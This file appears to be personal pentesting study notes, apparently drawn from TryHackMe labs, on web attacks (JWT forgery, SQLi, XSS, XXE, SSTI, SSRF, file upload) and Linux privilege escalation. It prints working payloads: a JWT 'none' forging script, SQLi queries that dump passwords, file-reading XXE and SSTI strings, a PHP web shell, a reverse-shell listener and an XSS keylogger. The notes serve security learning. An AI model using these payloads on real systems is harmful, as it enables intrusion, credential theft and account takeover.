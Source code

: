 = Vulnerability

== Websites

=== Authenticate

==== Dictionary Attack
Brute force credentials using an existing dictionary of commonly used username/passwords

Tools used: Hydra, Medusa, Burp Suite, ZAP

==== JSON Web Token
Normally, we could use brute force/dictionary attack to find the secret used for encrypting the JWT and then used that to generate new tokens.

If the JWT is not properly validated on the server, an attacker could change the header to set the alg to None and change the payload which will ignore the signature part.

We then encode the header and the payload as base64 and ignore the signature part.

This gives us a token like this eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K.eyJleHAiOjE1ODY3MDUyOTUsImlhdCI6MTU4NjcwNDk5NSwibmJmIjoxNTg2NzA0OTk1LCJpZGVudGl0eSI6MH0K.

where the 3rd part is missing.

Replace the requests headers with this token.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token[JWT payload and tool]

===== Public key is known (HS256)
A typical JWT header looks like this

[source,json]
----
{
    "typ": "JWT",
    "alg":"RS256"
}
----

RS256 uses a private RSA key (known by the server), HS256 is the server's public key. We may have access to the public key, so we may use that.

RS256 doesn't have any vulnerabilities for the moment.

If we know the public key

1. we can change the header to HS256
2. re-encode it in base64
3. convert the public key to hex so openssl will use it (cat a | xxd -p | tr -d "\\n")
** a is the file with the public key
** xxd -p turns the contents of a file to hex
** tr gets rid of any newlines
4. use openssl to sign that as valid HS256 key (echo "our base64 jwt" | openssl ...)
5. decode that hex to binary data and reencode it in base64 (use Python)
6. use that output where the secret should go and the server should accept it

===== None algorithm
Some libraries don't follow RFC and allow vulnerability where an attacker can switch to the None algorithm and have the token valid without secret validation.

We just replace the last part after updating the header: base64(header).base64(payload).

Header: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
[source,json]
----
{"type": "JWT", "alg": "none"}
----

[source,bash]
----
#!/usr/bin/env bash

if [ $# -eq 0 ] ; then
 echo "USAGE: $0 jwt"
 exit
fi

jwt=$1
part1=$(echo -n $jwt | cut -f1 -d'.' | base64 -di | sed 's/HS256/none/g'| base64)
part2=$(echo -n $jwt | cut -f2 -d'.' | base64 -di | sed 's/user/admin/g' | base64)

echo ""
echo $part1.$part2. | tr -d ' ='
----

===== Brute force secret
JWT HS256 is calculated using a secret with the calculation:

HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)

If we have the full JWT token, the header and the payload, we can potentially brute force the secret to sign our own JWT tokens.

Tool to use: https://github.com/lmammino/jwt-cracker[jwt-cracker]

Commmand: jwt-cracker <token> [alphabet] [max-length]

|===
|Token |The HS256 JWT token

|Alphabet
|The alphabet that the cracker will use to check the passwords (default: abc...xyz)

|max-length
|The max expected length of the secret (default: 12)

|===

==== No Auth
Use URL parameters to access other parts of the system.

http://10.10.173.12:7777/users/1

Change the ID to another value and see if we get other information while not being authenticated.

Use technical ID like UUID instead of incremental IDs.

==== Re-registration
Register a user using a name that exists using whitespace admin -> " admin". This will actually register a new user but that user will have the same right as normal admin.

Cause: developer mistake

=== Command injection / Remote Code Execution
Command injection is the abuse of an application's behaviour to execute commands on the OS using the same privileges that the application on a device is running with.

[source,php]
----
$title = $_GET["title"];
$command = "grep $title /var/www/html/songtitle.txt";
$search = exec($command);
----

[source,python]
----
import subprocess

def execute_command(shell):
    return subprocess.Popen(shell, shell=True, stdout=subprocess.PIPE).stdout.read()
----

==== Discovery
This vulnerability exists because applications often use functions in programming languages such as PHP, Python, NodeJS to pass data to and to make system calls on the machine's OS. For example, taking input from a field and searching an entry into a file.

Applications that use user input to populate system commands with data can often be combined in unintended behaviour.

Command injection can be detected in mostly one of two ways

|===
|Method |Description |Test

|Blind
|No direct output from the app when testing payloads. Need to investigate the behaviours of the app to determine if successful or not.
|Create delays with ping or sleep to test. Use cURL

|Verbose
|Direct feedback from the app like a display of the result.
|Check if whoami gets displayed.

|===

===== Linux payloads
|===
|Payload |Description

|whoami
|See what user the application is running under.

|ls
|List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things.

|ping
|This command will invoke the application to hang. This will be useful in testing an application for blind command injection.

|sleep
|This is another useful payload in testing an application for blind command injection, where the machine does not have ping installed.

|nc
|Netcat can be used to spawn a reverse shell onto the vulnerable application. We can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges.

|===

===== Windows payloads
|===
|Payload |Description

|whoami
|See what user the application is running under.

|dir
|List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things.

|ping
|This command will invoke the application to hang. This will be useful in testing an application for blind command injection.

|timeout
|This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the ping command is not installed.
|===

==== Remediation
In PHP, need to sanitize input of functions such as exec, passthru, system, ...

Input sanitisation -> specify format/types of data that the user can submit.
[source,php]
----
if (!filter_input(INPUT_GET, "number", FILTER_VALIDATE_NUMBER)) {}
----

==== Bypass
To bypass that, we can use hexadecimal value such as "\x2f\x65\x74...\x64" as this will still be executed and not be filtered.

https://github.com/payloadbox/command-injection-payload-list

=== SSRF (Server-Side Request Forgery)
Vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

Types of SSRF:

* regular where data is returned to the attacker's screen
* blind where SSRF occurs but no information is returned to the attacker's screen

If working with a blind SSRF where no output is reflected back to us, we'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, our own HTTP server or Burp Suite's Collaborator client.

Successful SSRF attack:

* access to unauthorized areas
* access to customer/organisational data
* ability to scale to internal networks
* reveal authentication tokens/credentials

==== Finding an SSRF
Four common places to look:

|===
|Place |Example

|when a full URL is used in a parameter in the address bar
|https://website.thm/form?server=http://server.website.thm/store

|hidden field in a form
|<input type="hidden" name="server" value="http://server.website.thm/store">

|partial URL such as just the hostname
|https://website.thm/form?server=api

|path of the URL
|https://website.thm/form?dst=/forms/contact

|===

==== Example
|===
|Expected URL |Hacker requests |Website requests |Explanation

|http://website.com/stock?url=http://api.website.com/stock/item?id=123
|url=http://api.website.com/api/user
|http://api.website.com/api/user
|Complete control of the URL to use

|http://website.com/stock?url=/item?id=123
|url=/../user
|http://api.website.com/api/stock/../user
|Using directory traversal to remove the /stock portion of the request and turns the final request into /api/user

|http://website.com/stock?server=api&id=123
|/stock?server=api.website.com/api/user&x=&id=123
|http://api.website.thm/api/user?x=.website.com/api/stock/item?id=123
|Payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string

|http://website.com/stock?url=http://api.website.com/api/stock/item?id=123
|http://website.com/stock?url=http://hacker-domain.com/
|None
|Returns data from hacker-domain.com instead of api.website.com revealing the API key

|===

==== Defeating common SSRF defenses

===== Deny List
Deny List where all requests are accepted apart from resources specified in a list of matching a particular pattern.  A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations.

localhost and 127.0.0.1 will likely be found in a deny list. This can be bypassed using alternative localhost reference such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io

In a cloud environment (AWS), also block 169.254.169.254 which contains metdata for the deployed cloud server. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP address 169.254.169.254

==== Allow List
Everything gets denied unless they appear on a list or match a particular pattern such as a rule that an URL used in a parameter must begin with https://website.thm which can be bypassed with subdomain: https://website.thm.attackers-domain.thm -> the application logic would now allow this input and let an attacker control the internal HTTP request.

If this does not work, we can look for *open redirect* like https://website.thm/link?url=https://tryhackme.com

This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

=== CSRF (Cross Site Request Forgery)
When a user visits a page on a site, that performs an action on a different site. This works because it is the victim making the request not the site, so all the site sees is a normal user making a normal request.

Check if parameters can be customized and the session cookie is automatically set.

[source,html]
----
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
----

Use tool like xsrfprobe to automatically test for CSRF.

[source,shell]
-----
pip3 install xsrfprobe
-----

=== LFI (Local File Inclusion)
* Mostly found in web servers
* Exploited when a user input contains a certain path to the file which might be present on the server and will be included in the output.
* Used to read files containing sensitive and confidential data from the vulnerable system -> ssh private key

Cause: improper sanitization of the user's input

Example: https://tryhackme.com/?file=robots.txt or ?page=xxx

==== Links
https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks[LFI payload]

=== XSS (Cross-Site Scripting)
Injection that can allow an attacker to execute malicious scripts and have it execute on a victim's machine.

Possible in JavaScript, VBScript, FLash and CSS

Cause: unsanitized user input

Severity depends on the type of XSS (persistent/stored and reflected).

|===
|Action |Description

|Cookie stealing
|Steal cookie from authenticated session

|Keylogging
|Register keyboard event listener and send all keystrokes somewhere else

|Webcam snapshot
|HTML5 capabilities

|Phishing
|Insert fake login forms or redirect to a clone of a site tricking us into revealing our sensitive data

|Port scanning
|Can use stored XSS to scan an internal network and identify other hosts on their network

|Other browser based exploits
|Millions of possibilities with XSS

|===

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

https://beefproject.com/

https://XSS-Payloads.com

==== Stored XSS
Most dangerous type of XSS -> attacker inserts malicious string in the database. XSS payload is stored on the web application and then gets run when other users visit the site or web page.

If this string is displayed on the website, all users will see it (comments added to a page, ...)

Commonly found in blog posts.

document.cookie contains the session cookie of a user

Cause: unsanitized user input

Process:

1. Try to add a comment: <!-- comment --> and check the resulting page
2. Try an alert()
3. Try changing some value : document.getElementById("thm-title").innerHTML = "Changed";

===== Test
Need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to:

* comments on a blog
* user profile information
* website listings

Try to manually send request rather than using the form of a website. Sometimes, only client side (drop down menu) are checked, not the data sent to the server.

==== Blind XSS
Similar to a stored XSS in that the payload gets stored on the website for another user to view, but we can't see the payload working or be able to test it against ourself first.

Example: contact form where the message gets turned into support tickets on a private web portal

===== Test
When testing for blind XSS vulnerabilities, we need to ensure that our payload has a callback (HTTP request) to know if/when our code is being executed.

Popular tool: https://xsshunter.com/[xsshunter]

==== Reflected XSS
Malicious payload is part of the victim's request to the website. The website includes this payload in response back to the user.

Cause: user clicked a URL that executes the malicious payload

Example: http://example.com/search?keyword=<script>...</script>

Commonly found when the server doesn't sanitize search data.

The victim's browser executes the payload inside the response

The main difference between reflected and DOM based XSS, is that with reflected XSS our payload (string in this case) gets inputted directly into the page. No Javascript is loaded beforehand, neither is anything processed in the DOM beforehand.

[source, html]
----
<html>
    You searched for <em><script>...</script></em>
</html
----

===== Test
Need to test every possible point of entry:

* parameters in the URL query string
* URL file path
* sometimes HTTP headers (unlikely exploitable in practice)

==== DOM-Based XSS
Document Object Model is a programming interface for HTML and XML documents. It represents a page so that programs can change the document structure, style and content.

Commonly uses the <script></script> or <iframe src="javascript:alert(`xss`)"> HTML tag.

Websites that allow the user to modify the iframe or other DOM elements will most likely be vulnerable to XSS.

https://www.w3.org/TR/REC-DOM-Level-1/introduction.html

JavaScript can create dynamic HTML using the DOM.

In a DOM-based XSS attack, a malicious payload is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed.

[source,javascript]
-----
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
-----

Example: https://portswigger.net/web-security/cross-site-scripting/dom-based

Example payload:

[source,javascript]
-----
    <script>
      document.querySelector('#update').addEventListener("click", function() {
        let imgURL = document.querySelector('#img-url').value // input URL
        const imgEl = document.querySelector('#img') // Image div element
        imgEl.innerHTML = '<img src="' + imgURL + '" alt="Image not found.." width=400>' // Creating image element
      });
    </script>
-----

We need to find a way to write imgURL to do some actions.

[source,javascript]
-----
1" onmouseover="document.body.style.backgroundColor = 'red'" width=400><!--

1" onerror=alert(cookie.cookie)><!--
-----

===== Test
Challenging to test for as we need to look for parts of the code that access certain variables that we have control over such as "window.location.x" parameters.

When found, check how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

==== Using XSS for IP and Port Scanning
On the application layer, the browser has no notion of internal and external IP addresses. Any website is able to tell the browser to request a resource from the internal network.

What will affect the results: response times, firewall rules, cross origin policies and more

[source,html]
----
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
----

[source,javascript]
----
<script>
for (let i = 0; i < 256; i++) {
    let ip = '192.168.0.' + i
    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code
}
</script>
----

==== XSS Keylogger

[source,javascript]
-----
 <script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
        l += e.key; // If user types, log it to the l variable
        console.log(l); // update this line to post to our server
    }
</script>
-----

==== Filter Evasion
If JavaScript tags (script, ...) are filtered, we can counter that with:

[source,html]
----
<img src=x onerror=alert("Hello");>

<object onerror=alert('Hello')>
----

Check XSS cheat sheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

==== Protection Methods & Other Exploits
* escape all user input: disallow < and > from being rendered
* validate input: disallow certain characters from being submitted in the first place
* sanitize: change unacceptable user input into an acceptable format like "<" into HTML entity "&#60;"

=== XXE (XML Eternal Entity)
Abuses features of XML parsers/data. Allow an attacker to interact with any backend or external systems that the application itself can access and read the file on that systsem. This uses the ENTITY feature of XML to load resources from outside the website directory.

Attacker can also cause Denial of Service attack or could use XXE to perform Server-Side Request Forgery (SSRF) to make requests to other applications.

2 types:

* in-band XXE: receive immediate response to the XXE payload
* out-of-band XXE / blind XXE: no immediate response, need to output result to some other file or their own server

Since the application doesn't necessarily have to return data, we may not be able to get the contents of the external entity but we may be able to use the php expect module to get Remote Code Execution (RCE) anyway.

==== Discover
To discover potential attacks, check the XML sent in the request. After sending the request, do we receive some information about the XML fields in the output? If so, we may be able to view the contents of files on the file system.

Create an entity that has the value /etc/passwd using https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe[PayloadsAllTheThings - GitHub]

XXE can't really be automatically exploited, as we can't guarantee xml data will be the same, and which payload will or won't work. By the time we figure out that it's vulnerable and make a script to exploit it, we could have a reverse shell or LFI already using burp.

==== Payload

Define an entity and use it in our code
[source, xml]
----
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
----

Define an entity "read" with value SYSTEM and path to file in order for a website vulnerable to XXE to display the content of the file.

Or use the php expect module if it is loaded.

[source, xml]
----
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'expect://id'>]>
<root><email>&xxe;</email></root>
----

=== SSTI (Server Side Template Injection)
When a user is able to pass in a parameter that can control the template engine that is running on the server.

Different template engines have different injection payloads, however usually we can test for SSTI using {{2+2}} as a test.

[source,python]
-----
{{config.__class__.__init__.__globals__['os'].popen('/etc/passwd').read()}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/kali/.ssh/id_rsa').read()}}
-----

Use tool tplmap to test what's available.

[source,shell]
-----
./tplmap.py -u http://10.10.229.70/ -d 'name' --os-cmd 'cat /etc/passwd'
-----

|===
|HTTP Method |Syntax

|GET
|tplmap -u <url>/?<vulnparam>

|POST
|tplmap -u <url> -d '<vulnparam>'

|===

==== Links

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection[Template injectsion - GitHub]

https://github.com/epinna/tplmap[tplmap - Github]

=== SQL Injection / SQLi
Attack on a web application database server that cause malicious queries to be executed. This happens when user-provided data gets included in the SQL query.

3 types: In-Band, Blind and Out-of-Band.

==== Example
An endpoint like https://website.thm/blog?id=1 could be transformed to a SQL query like

[source,sql]
----
SELECT * from blog where id=1 and private=0 LIMIT 1;
----

If the article 2 is still private, we could potentially access it like this https://website.thm/blog?id=2;--

which would produce this query
[source,sql]
----
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
----
; end the command and -- creates comment

==== In-Band SQLi
Easiest to detect and exploit -> discover vulnerability and extract data from the database on the same page.

*Error-Based SQL Injection*: get info about database structure as error messages from the DB. Printed directly on the browser screen. Used to enumerate a whole database.

*Union-Based SQL Injection*: uses SQL UNION alongside a SELECT statement to return additional results to the page. Most common way of extracting large amounts of data.

===== Practical
Key is to break the code's SQL query by trying certain characters until an error message is produced => use ' or "

Then we need to return data to the browser without displaying the error message. Try UNION first to get extract result.

For example with URL http://website.thm/article?id=1

[source,sql]
----
1 UNION SELECT 1
----

We get error

SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

We need to return the same number of columns.

[source,sql]
----
1 UNION SELECT 1,2
1 UNION SELECT 1,2,3
----
Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is being displayed because it takes the first returned result somewhere in the web site's code and shows that.

To get around that, we need the first query to produce no results. This can simply be done by changing the article id from 1 to 0.

[source,sql]
----
0 UNION SELECT 1,2,3
----

Now the result is made up of the result from the UNION select.

[source,sql]
----
0 UNION SELECT 1,2,database()
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
----

group_concat() gets the specified column (table_name) from multiple returned rows and puts them into one string separacted by commas.

information_schema: every user of the DB has access to this and contains information about all the databases and tables the user has access to.

[source,sql]
----
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
----

==== Blind SQLi - Authentication Bypass
No feedback is returned from injection. Most straightforward Blind SQLi technique is when bypassing authentication methods such as login forms.

Application is not interested in the content of the username and password but only if there is DB info that matches user input. Reply must be a boolean so we need to create a query that returns true.

For password field, use ' OR 1=1;-- to transform the query.

[source,sql]
-----
select * from users where username='' and password='' LIMIT 1;
select * from users where username='' and password='' OR 1=1;
-----

==== Blind SQLi - Boolean Based
Response we receive that can only ever has two outcomes (true/false, yes/no, on/off, 1/0, ...).

[source,sql]
----
select * from users where username = 'admin' LIMIT 1
----

As the only input, we have control over is the username in the query string, we'll have to use this to perform our SQL Injection. Keeping the username as admin123, we can start appending to this to try and make the database confirm true things, which will change the state of the taken field from false to true.

First establish the number of columns in the users table using UNION

[source,sql]
----
admin123' UNION SELECT 1;--
admin123' UNION SELECT 1,2;--
admin123' UNION SELECT 1,2,3;--
----

Then we discover info about DB using like operator to return a true status.

[source,sql]
----
admin123' UNION SELECT 1,2,3 where database() like '%';--
----
We get a true response because of the wildcard. Now we try different values like 'a%', 'b%' until we discover a match.

After that, we do the same with tables

[source,sql]
----
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='a%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
----

And finally the column names.

[source,sql]
----
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';'

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
----

We discover columns id, username, password that we can use in queries.

[source,sql]
----
admin123' UNION SELECT 1,2,3 from users where username like 'a%

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
----

==== Blind SQLi - Time Based
Very similar to boolean based but there is no visual indicator that our queries are wrong or right. The indicator is now the time it took the query to complete using SLEEP(X) alongside the UNION statement. The SLEEP() method will only be executed upon a successful UNION select statement.

[source,sql]
----
admin123' UNION SELECT SLEEP(5);--

admin123' UNION SELECT SLEEP(5),2;--
----

If there was no pause in the response time, we know that the query was unsuccessful.

Once we find the number of columns, we repeat the enumeration process like boolean based SQLi with database() and wildcard, then columns, ...

==== Out-of-Band SQLi
Not as common as it depends on specific features being enabled on the database server or the web app business logic which makes some kind of external network call based on the results from an SQL query.

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service we control.

1. Attacker makes a request to a website with an injection payload
2. website makes an SQL query to the DB which also passes the payload
3. payload contains a request which forces an HTTP request back to the attacker's machine containing data from the DB

==== Remediation
Always use prepared statements with parameterized queries. Writing prepared statements ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data.

Input validation of what goes into the SQL query: allow list to restrict input of only certain strings, string replacement method to filter characters.

Escaping user input with a \ before to be parsed as regular string and not special character: ' " $ \

=== File upload
If we have an upload point on a site:

* look page source code for any client-side filtering
* scan directories with gobuster
* check upload requests with burpsuite
* check extension Wappalyser for information about the site

==== Overwriting existing files
When uploading a file, a range of checks should be done on the server to ensure that the file will not overwrite anything that already exists on the server.

* assign file with a new name (random, date time, ...)
* check if file already exists and raise error if that's the case
* file permissions to protect against overwrite (web pages should not be writeable to the web user)

==== Remote code execution
Most likely low privileged web user account (www-data on Linux server). RCE through a web application tends to be a result of uploading a program written in the same language as the backend of the website (PHP, Python, JS, ...).

===== Web shell
take a parameter and execute it

[source,php]
----
<?php
    echo system($_GET["cmd"]);
?>
----

After uploading the file

[source,shell]
----
curl http://shell.uploadvulns.thm/resources/webshell.php?cmd=id
----

Whe using webshells, it is usually easier to view the output by looking at the source code of the page -> improves formatting of the output

===== Reverse shell
Ideal goal. Almost identical than a webshell; use è[Pentest Monkey reverse shell tool].

Upload it and access it after starting nc

[source, bash]
----
nc -lvnp 1234
----

==== Filtering
Client-side filtering: running in the user's browser. Filtering done before the file is uploaded on the server. Highly insecure because we can disable it ourselves.

Server-side filtering: PHP, ASP, Python, Ruby, JS, ... more difficult to bypass because we don't know the code. We need a payload which conforms the filters in place but still allows us to execute our code.

===== Extension validation
In theory, used to identify the contents of a file. Can be changed easily, so they don't mean much but MS Windows still uses them to identify file types. The file extension can either be blacklisted or whitelisted.

====== Bypass
If .php is blacklisted, we can try variant like .php3, .php7, .phps, ... check wikipedia for more. The webserver will need to consider the uploaded files as php. This is not the default for Apache2 servers but we still need to try in case that works.

Try shell.jpg.php in case the filter simply looks for .jpg in the file name for instance.

===== File type filtering
MIME validation (multipurpose internet mail extension) is used as an identifier for files, found in the header of the request (Content-Type). MIME is based on the extension of the file so easy to bypass.

Magic Number validation: more accurate way of determining the contents of a file but can be faked. It is a string of bytes at the very beginning of the file content which identify the content. Unix systems use magic numbers for identifying files.

====== Bypass
Use magic number https://en.wikipedia.org/wiki/List_of_file_signatures[Magic number wikipedia]

If the magic number we want to use is 4 bytes long, add 4 chars at the top of the file and use a hex editor to replace them with the magic number.

===== File length filtering
Used to prevent huge files from being uploaded.

===== File name filtering
File name should be unique, sanitized (contains no bad characters like null bytes, forward slashes on Linux, semi colon and potentially unicode characters).

If we can bypass the filtering, we may need to go hunting for our shell.

===== File content filtering
Scan the full contents of an uploaded file to ensure that it's not spoofing its extension, MIME type and Magic Number. High complexity for bypassing.

===== Bypass client side filtering
* turn off Javascript in our browser if the site doesn't require it
* intercept and modify the incoming page before the browser can run the javascript filter
* intercept and modify the file upload. Real file passes the filter and we replace it
* send the file directly to the upload point without executing the javascript
[source,bash]
----
curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>
----

Burpsuite will not, by default, intercept any external Javascript files that the web page is loading. If we need to edit a script which is not inside the main page being loaded, we'll need to go to the "Options" tab at the top of the Burpsuite window, then under the "Intercept Client Requests" section, edit the condition of the first line to remove ^js$|

== Operating Systsems

=== Privilege Escalation
Become superuser another user from a user.

If we have access to a simple user, we can type sudo -l and see what the user can access without password

[source, shell]
----
falcon@walk:~$ sudo -l
User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl

falcon@walk:~$ sudo /bin/journalctl
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

----

==== Links

https://blog.mzfr.me/posts/2020-02-1-linux-priv-esc/[Linux Privilege Escalation]

http://gtfobins.github.io/

http://github.com/mzfr/gtfo

